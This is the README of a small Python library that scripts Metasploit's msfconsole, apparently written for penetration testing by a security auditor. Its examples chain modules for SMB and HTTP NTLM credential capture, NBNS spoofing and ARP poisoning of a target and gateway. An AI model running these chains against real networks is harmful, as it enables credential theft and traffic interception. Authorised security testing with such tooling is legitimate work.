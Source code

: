 msf
===========

Python classes and modules for Metasploit integration

-------------------------------------------------------------------------------

Matthew C. Jones, CPA, CISA, OSCP

IS Audits and Consulting, LLC - <http://www.isaudits.net/>

TJS Deemer Dana - <http://www.tjsdd.com>

-------------------------------------------------------------------------------
This is a work in process to simplify and expedite execution of Metasploit
commands from Python:

-a parent class for executing metasploit commands 
-subclasses for direct interaction

Current functionality is limited to parsing and executing an msfconsole command
using the msfconsole_command class:

Commands are built and piped via console similar to a resource file so multiple
handlers and exploits can be executed in a single thread
    
The "command" attribute should be a string with individual commands separated by
a semicolon; parse_msfconsole_args builds this string from individual command 
strings passed as args

For example:
	myCommand = msf.msfconsole_command("use auxiliary/server/capture/smb",
	                                   "set srvhost "+ipaddr,
	                                   "set cainpwfile "+os.path.join(tempdir,"cain"),
	                                   "set johnpwfile "+os.path.join(tempdir,"john"),
	                                   "run",
	                                   "use auxiliary/server/capture/http_ntlm",
	                                   "set srvhost "+ipaddr,
	                                   "set cainpwfile "+os.path.join(tempdir,"cain"),
	                                   "set johnpwfile "+os.path.join(tempdir,"john"),
	                                   "set uripath /",
	                                   "set srvport 80",
	                                   "run",
	                                   "use auxiliary/spoof/nbns/nbns_response",
	                                   "set spoofip "+ipaddr,
	                                   "run"
	                                   )
                               
Commands can also be appended to an existing command prior to execution
as follows:
	myCommand.add_msfconsole_args("use auxiliary/spoof/arp/arp_poisoning",
	                                    "set DHOSTS "+target_ip,
	                                    "set SHOSTS "+gateway_ip,
	                                    "set INTERFACE"+iface,
	                                    "set BIDIRECTIONAL true",
	                                    "run")

-------------------------------------------------------------------------------

This program is free software: you can redistribute it and/or modify it under 
the terms of the GNU General Public License as published by the Free Software 
Foundation, either version 3 of the License, or (at your option) any later 
version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY 
WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A 
PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with 
this program. If not, see <http://www.gnu.org/licenses/>.

